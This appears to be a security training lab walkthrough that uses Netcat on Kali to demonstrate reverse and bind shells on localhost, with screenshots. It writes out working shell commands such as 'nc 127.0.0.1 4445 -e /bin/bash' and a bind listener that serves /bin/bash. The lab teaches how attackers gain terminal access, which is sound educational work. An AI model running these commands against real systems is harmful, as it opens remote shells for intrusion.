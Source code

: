 We will use a networking command-line tool called **Netcat** to demonstrate bind and reverse shells. 
  - Netcat is primarily used to view traffic across a network. 
  - Netcat is often referred to as the "Swiss army knife" of networking tools, because it can assist with many security and admin activities.

Note that this demonstration will not show an exploit, but will show how certain exploits utilize shells to provide the attacker terminal access on a target.

1. In Kali, open a terminal and type `nc -h` to show the Help menu for Netcat.
    - The old version of Netcat was accessed by typing `ncat`. We use `nc` to access the new version, which has additional functionality.

**Reverse Shells**

2. First, you'll demonstrate a reverse shell. Use Netcat to listen on port 4445 by typing `nc -lvp 4445`, as the following image shows:

![image](https://user-images.githubusercontent.com/118358126/203070535-ee6d3073-b500-4fc9-b7b9-a701705a59eb.png)

   - This will act as the attacker's host, which is now listening for a connection from a remote machine.
   - The flags used are: `l` (listen), `v` (verbose), `p` (port).
 
3. Open another terminal window (not tab) and position it next to the current terminal window where `nc` is listening, as the following image shows: 

![image](https://user-images.githubusercontent.com/118358126/203071151-43c66f77-980b-42e2-9659-ccc980c1f67e.png)

    This new window will act as the victim/target machine.

4. In the new window, connect to port 4445 on the attacker's host window by typing `nc 127.0.0.1 4445 -e /bin/bash`, as the following image shows:

![image](https://user-images.githubusercontent.com/118358126/203070920-e8f7d4d6-034f-4d4f-a4f3-5288fe018b4d.png)
	
5. From the attacker's window, we now have a reverse shell opened on the target host, and we can now execute commands to it remotely. 

6. Run `whoami` in the attacker's window.

    - This type of attack requires the host to run the connection string command (`nc 127.0.0.1 4445 -e /bin/bash`), which is often done through some type of **remote-code execution (RCE)** exploit.

    - Use ctrl+C to stop the Netcat connection, and `clear` the windows.

**Bind Shells**


1. In the victim/target's window on the right, run `nc -lvp 4445 -e /bin/bash`.

    - The victim now has /bin/bash listening on port 4445, as the following image shows:

![image](https://user-images.githubusercontent.com/118358126/203071536-2db1f861-248a-4b7c-917d-7b48508228af.png)
	
2. In the attacker window on the left, connect to port 4445: `nc 127.0.0.1 4445`. Run the `id` command to show you have a shell and can execute commands, as the following image shows: 

![image](https://user-images.githubusercontent.com/118358126/203071691-bb716532-0a61-42ea-9d4d-fe9d832e2ae9.png)
